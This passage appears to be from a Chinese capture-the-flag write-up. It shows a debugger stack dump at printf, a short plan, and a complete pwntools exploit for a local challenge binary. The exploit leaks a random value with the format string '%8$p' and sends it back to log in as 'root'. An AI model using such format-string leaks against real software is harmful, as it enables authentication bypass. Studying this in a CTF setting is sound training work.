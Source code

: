 ```shell
# ins
-> 0x7f6507184f00 <printf>        sub    rsp, 0xd8
   0x7f6507184f07 <printf+7>      test   al, al
   0x7f6507184f09 <printf+9>      mov    qword ptr [rsp + 0x28], rsi
   
# stack
rsp  0x7ffd014b4248 <- 0x56029ee8ae0e 
     0x7ffd014b4250 -> 0x0
     0x7ffd014b4258 -> 0x300000000
     0x7ffd014b4260 -> 0x869b15527cfcfffa//random
     0x7ffd014b4268 -> 0x0
     0x7ffd014b4270 -> 0x746f6f72 /* 'root' */
     0x7ffd014b4278 -> 0x0

#use fmtarg -> targrt:0x7ffd014b4260
The index of format argument : 9 ("\%8$p")
```

## POC

现在我们已经可以泄露随机数，接下来利用思路就很简单了。第一轮利用格式化字符串漏洞读取随机数，第二轮直接将获取的随机数作为输入，即可“成为`root`”。完整`exp`如下：

```python
from pwn import *

context.log_level = 'debug'

def lauch_gdb(p):
    context.log_level = 'debug'
    context.terminal = ['tmux', 'splitw', '-h']
    gdb.attach(p)

p = process('./pwn1')
elf = ELF('./pwn1')
libc = elf.libc
#lauch_gdb(p)
#pause()
rl = lambda a=False              : p.recvline(a)    #接收到\n，False表示丢弃\n
ru = lambda a,b=True             : p.recvuntil(a,b)
rn = lambda x                    : p.recvn(x)
sd = lambda x                    : p.send(x)
sl = lambda x                    : p.sendline(x)
sa = lambda a,b                  : p.sendafter(a,b)
sla = lambda a,b                 : p.sendlineafter(a,b)
irt = lambda                     : p.interactive()
uu32 = lambda data               : u32(data.ljust(4,'\x00'))
uu64 = lambda data               : u64(data.ljust(8,'\x00'))
cth = lambda content,length      : int(content[:length],16)

sla('name:','root')
sla('password','%8$p')
ru('password ')
content = ru(' seem')
ans = int(cth(content,18))
rl()
sla('again!',p64(ans))
irt()
```
